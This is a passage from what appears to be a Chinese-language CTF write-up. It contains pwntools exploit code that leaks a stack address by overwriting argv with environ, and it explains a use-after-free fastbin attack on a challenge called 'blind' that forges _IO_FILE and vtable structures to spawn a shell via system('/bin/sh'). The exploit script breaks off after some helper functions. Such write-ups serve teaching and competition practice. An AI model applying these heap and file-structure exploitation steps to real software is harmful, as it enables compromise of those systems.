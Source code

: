 ```python

p.recvuntil("flag\n")
p.sendline("1" * 0x128 + p64(environ))
print p.recvuntil("***: ")
stack = u64(p.recv(6).ljust(8, "\x00"))
print hex(stack)

p.recvuntil("flag\n")
p.sendline("1" * 0x128 + p64(stack - 0x168))
print p.recvuntil("***: ")
print p.recvline()
p.close()
```
### blind
release功能释放堆块后没有把指针置0，可以change中再次使用，存在**uaf**漏洞，可以用来修改fd做fastbin attack，以为没有提供leak，所以各种hook函数就别想了。stdin，stdout，stderr地址都是以0x7f开头，可以通过错位实现劫持，这里选择了stderr，然后就可以修改全局数据的5个指针指向任意地址，我将4个指针指向了bss上的一块连续内存用来伪造io_file和vtable，第五个指向了stdout用来攻击file结构。程序留了后面，可以直接吧vtable中的函数指针全部设为它，用构造好的file结构体指针覆盖stdout，执行printf时程序就被劫持为system(“/bin/sh”)，伪造结构体时需要设置fp->lock指向一块值为0的内存。
```python
from pwn import *
import struct

_IO_USE_OLD_IO_FILE = False
_BITS = 64

def _u64(data):
    return struct.unpack("<Q",data)[0]

def _u32(data):
    return struct.unpack("<I",data)[0]

def _u16(data):
    return struct.unpack("<H",data)[0]

def _u8(data):
    return ord(data)

def _usz(data):
    if _BITS == 32:
        return _u32(data)
    elif _BITS == 64:
        return _u64(data)
    else:
        print("[-] Invalid _BITS")
        exit()

def _ua(data):
    if _BITS == 32:
        return _u32(data)
    elif _BITS == 64:
        return _u64(data)
    else:
        print("[-] Invalid _BITS")
        exit()

def _p64(data):
    return struct.pack("<Q",data)

def _p32(data):
    return struct.pack("<I",data)

def _p16(data):
```